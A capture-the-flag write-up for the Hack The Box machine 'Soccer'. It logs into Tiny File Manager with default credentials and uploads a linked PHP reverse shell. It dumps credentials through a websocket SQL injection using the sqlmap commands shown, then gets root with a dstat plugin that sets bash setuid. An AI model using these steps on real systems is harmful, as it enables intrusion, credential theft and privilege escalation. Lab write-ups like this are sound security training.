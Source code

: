 # Soccer

A writeup for the machine [Soccer](https://app.hackthebox.com/machines/Soccer) on Hack The Box.

<Image src={require("./banner.png").default} height="500" />

## Footprinting

### Nmap scan

Use nmap to scan for services.

```bash
nmap -sS <IP>
```

<Image src={require("./nmap-scan.png").default} />

We can see three services: ssh, http, and one on port 9091 used for websockets.

### Website analysis

If we look on the website there is only a simple homepage with no other links.

<Image src={require("./website.png").default} />

### Website enumeration

By enumerating the main website using gobuster we can find a subdomain called tiny.

```bash
gobuster dir -u soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<Image src={require("./gobuster.png").default} />

## User flag

### Entering Tiny File Manager

During the enumeration a page is found under /tiny. There is a login but common credentials don't work.

It is possible to search online for "Tiny File Manager" and the Github repository of this project is one of the first results.

There is a section in the public documentation about the default admin credentials. The second user works. It is possible to enter inside.

Default credentials:

```
username: user
password: 12345
```

[https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management](https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management)

<Image src={require("./tiny.png").default} />

### Exploiting the file upload vulnerability in Tiny

Because it is a php server and we can upload file, we can obtain a reverse shell by uploading something like this and executing it.

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<Image src={require("./upload.png").default} />

### Inside the system

Once inside we can see that we have no access as the main user or the root.

Also, no vulnerabilities are found with tools like LinPeas or LinEnum.

By looking in the available files we can find in the nginx config that there is an additional website as soc-player.soccer.htb.

<Image src={require("./nginx.png").default} />

### Second website

Once logged in the second website, there is only an input box.

By trying different inputs we can see that the message "Tickets exists" is show when the query is correct and a value is found.

This is a blind sql injection vulnerability.

<Image src={require("./sqli.png").default} />

### SQLMap over websocket

The vulnerable request is managed with websockets so it is not possible to use sqlmap directly.

By looking to Rayhan0x01 post there is a possible solution for this.

[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

We can create a middle server that receives normal GET requests by sqlmap and sent them to the websockets server and vice versa.

Once the script is ready and the server up and running, we can execute sqlmap and enumerate the database.

Run it with `flask run`

```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install flask websocket
```

<Gist id="23988dbb8c44b3885f7f488caba89414" />

### Running SQLmap

```bash
# enumerate dbs
sqlmap -u "http://localhost:5000/?id=1" --batch --dbs

# enumerate tables in app db
sqlmap -u "http://localhost:5000/?id=1" --batch -D soccer_db --tables

# enumerate credentials
sqlmap -u "http://localhost:5000/?id=1" -D soccer_db -T accounts -C username,email,password --dump
```

<Image src={require("./sqlmap.png").default} />

### User flag

We can enter inside the system using ssh and the credentials found in the database. It is possible in this way to read the user flag.

<Image src={require("./user.png").default} />

## Root flag

### Privilege escalation

Once inside the system for privilige escalation we can run LinPeas. Move it using ssh or by serving a directory.

```bash
./LinPeas.sh
```

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

In the final output of LinPeas we can see that there is a possible vulnerability with dstat.

<Image src={require("./linpeas.png").default} />

### Exploiting dstat

dstat can be run as root. We could write a new plugin to make some actions like the root inside the system.

New plugins can be written inside the folder `/usr/local/share/dstat`.

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`.

```python
# /usr/local/share/dstat/dstat_hack.py
import os

os.system('chmod +s /usr/bin/bash') # setuid
```

We can run it using this command

```bash
sudo /usr/bin/dstat --hack
```

### Root flag

Now we can run bash as root and read the flag.

```bash
bash -p
```

<Image src={require("./root.png").default} />
